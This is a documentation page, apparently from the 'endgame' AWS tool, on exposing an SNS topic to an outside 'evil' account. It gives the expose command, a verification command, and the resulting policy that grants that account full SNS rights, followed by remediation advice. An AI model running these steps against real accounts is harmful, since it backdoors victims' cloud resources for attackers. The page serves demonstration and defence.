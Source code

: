 # SNS

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service sns --name test-resource-exposure
```

* To verify that the SNS topic has been shared with the evil principal, run the following from the victim account:

```bash
export VICTIM_RESOURCE=arn:aws:sns:us-east-1:111122223333:test-resource-exposure

aws sns get-topic-attributes \
    --topic-arn $VICTIM_RESOURCE
```

* Observe that the contents match the example shown below.

## Example

The output will have the following structure:

```json
{
    "Attributes": {
        "SubscriptionsConfirmed": "1",
        "DisplayName": "my-topic",
        "SubscriptionsDeleted": "0",
        "EffectiveDeliveryPolicy": "",
        "Owner": "111122223333",
        "Policy": "SeeBelow",
        "TopicArn": "arn:aws:sns:us-east-1:111122223333:test-resource-exposure",
        "SubscriptionsPending": "0"
    }
}
```

The prettified version of the `Policy` key is below. Observe how the content of the policy grants the evil principal's account ID (`999988887777`) maximum access to the SNS topic.

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "Endgame",
      "Effect": "Allow",
      "Principal": {
        "AWS": "999988887777"
      },
      "Action": [
        "SNS:AddPermission",
        "SNS:DeleteTopic",
        "SNS:GetTopicAttributes",
        "SNS:ListSubscriptionsByTopic",
        "SNS:Publish",
        "SNS:Receive",
        "SNS:RemovePermission",
        "SNS:SetTopicAttributes",
        "SNS:Subscribe"
      ],
      "Resource": "arn:aws:sns:us-east-1:111122223333:test-resource-exposure"
    }
  ]
}
```

## Exploitation

```
TODO
```

## Remediation

* **Trusted Accounts Only**: Ensure that SNS Topics are only shared with trusted accounts, and that the trusted accounts truly need access to the SNS Topic.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **AWS Access Analyzer**: Leverage AWS Access Analyzer to report on external access to SNS Topics. See [the AWS Access Analyzer documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/access-analyzer-resources.html) for more details.
* **Restrict access to IAM permissions that could lead to exposure of your SNS Topics**: Tightly control access to the following IAM actions:
  - [sns:AddPermission](https://docs.aws.amazon.com/sns/latest/api/API_AddPermission.html): _Adds a statement to a topic's access control policy, granting access for the specified AWS accounts to the specified actions._
  - [sns:RemovePermission](https://docs.aws.amazon.com/sns/latest/api/API_RemovePermission.html): _Removes a statement from a topic's access control policy._
  - [sns:GetTopicAttributes](https://docs.aws.amazon.com/sns/latest/api/API_GetTopicAttributes.html): _Returns all of the properties of a topic. This includes the resource-based policy document for the SNS Topic, which lists information about who is authorized to access the SNS Topic_
  - [sns:ListTopics](https://docs.aws.amazon.com/sns/latest/api/API_ListTopics.html): _Returns a list of the requester's topics._

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## References

* [add-permission](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sns/add-permission.html)